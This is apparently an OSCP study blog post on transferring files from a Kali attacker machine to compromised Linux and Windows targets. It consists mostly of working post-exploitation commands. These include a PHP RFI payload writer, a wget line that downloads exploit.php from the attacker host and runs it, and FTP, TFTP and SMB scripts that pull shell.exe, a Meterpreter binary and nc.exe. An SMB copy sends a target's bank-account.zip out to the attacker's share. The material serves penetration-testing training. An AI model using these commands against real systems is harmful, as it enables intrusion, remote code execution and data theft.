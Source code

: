 ```yaml
---
title:  "OSCP: Transfer files from Kali to the target machine"
date:   2018-03-26 03:22:33 +0800
categories: oscp
toc: true
toc_label: "Table of Contents"
toc_icon: "gear"
layout: single
classes:
  - landing
---
```


Tranfer files to the target machine is particularly useful when we have already had a reverse shell on Windows. Windows does not have convenient commands to download files such as wget in Linux.

## If PHP RFI is available
Use PHP base64_decode
```php
<?php
$file = '/tmp/findsock';
$fp = fopen($file, 'wb');
fwrite($fp, base64_decode($encoded));
fclose($fp);
system("chmod 0777 " . $file);
echo system("ls -la /tmp");
?>
```

## To Linux machine
Use wget
```
cd /tmp && wget -O exploit.php 10.11.0.105/exploit.php && php -f exploit.php
```

## To Windows machine
### HTTP Server
```
python -m SimpleHTTPServer 80
```
### FTP Server
To start Python FTP server:
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
To put/get files:
```
echo open 10.11.0.105>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get shell.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```
### TFTP Server
To start Kali TFTP server:
```
service atftpd start
```
To get files (put does not work):
```
tftp -i 10.11.1.5 GET met8888.exe
tftp -i 10.11.0.105 PUT C:\bank-account.zip // Not working
```
If tftp is not available:
```
pkgmgr /iu:"TFTP"  
```
### SMB Server
To start SMB server:
```
python /opt/impacket/examples/smbserver.py ROPNOP /root/
```
To put/get files:
```
copy \\10.11.0.105\ROPNOP\nc.exe .
copy C:\bank-account.zip \\10.11.0.105\ROPNOP\
```
**References**
[https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
[http://ostrokonskiy.tk/2017/01/23/windows-privilege-escalation/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
